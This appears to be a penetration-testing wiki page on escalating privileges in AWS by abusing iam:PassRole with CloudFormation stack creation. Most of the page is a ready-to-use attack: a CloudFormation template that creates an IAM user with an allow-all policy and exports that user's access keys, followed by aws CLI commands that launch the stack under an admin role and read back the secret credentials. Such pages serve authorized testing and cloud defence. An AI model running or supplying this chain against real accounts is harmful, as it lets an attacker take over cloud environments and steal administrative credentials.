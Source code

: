# iam:PassRole, cloudformation:CreateStack,and cloudformation:DescribeStacks

An attacker could for example use a **cloudformation template** that generates **keys for an admin** user like:

```json
{
  "Resources": {
    "AdminUser": {
      "Type": "AWS::IAM::User"
    },
    "AdminPolicy": {
      "Type": "AWS::IAM::ManagedPolicy",
      "Properties": {
        "Description": "This policy allows all actions on all resources.",
        "PolicyDocument": {
          "Version": "2012-10-17",
          "Statement": [
            {
              "Effect": "Allow",
              "Action": ["*"],
              "Resource": "*"
            }
          ]
        },
        "Users": [
          {
            "Ref": "AdminUser"
          }
        ]
      }
    },
    "MyUserKeys": {
      "Type": "AWS::IAM::AccessKey",
      "Properties": {
        "UserName": {
          "Ref": "AdminUser"
        }
      }
    }
  },
  "Outputs": {
    "AccessKey": {
      "Value": {
        "Ref": "MyUserKeys"
      },
      "Description": "Access Key ID of Admin User"
    },
    "SecretKey": {
      "Value": {
        "Fn::GetAtt": ["MyUserKeys", "SecretAccessKey"]
      },
      "Description": "Secret Key of Admin User"
    }
  }
}
```

Then **generate the cloudformation stack**:

```bash
aws cloudformation create-stack --stack-name privesc \
    --template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
    --role arn:aws:iam::[REDACTED]:role/adminaccess \
    --capabilities CAPABILITY_IAM --region us-west-2
```

**Wait for a couple of minutes** for the stack to be generated and then **get the output** of the stack where the **credentials are stored**:

```bash
aws cloudformation describe-stacks \
    --stack-name arn:aws:cloudformation:us-west2:[REDACTED]:stack/privesc/b4026300-d3fe-11e9-b3b5-06fe8be0ff5e \
    --region uswest-2
```

### References

- [https://bishopfox.com/blog/privilege-escalation-in-aws](https://bishopfox.com/blog/privilege-escalation-in-aws)

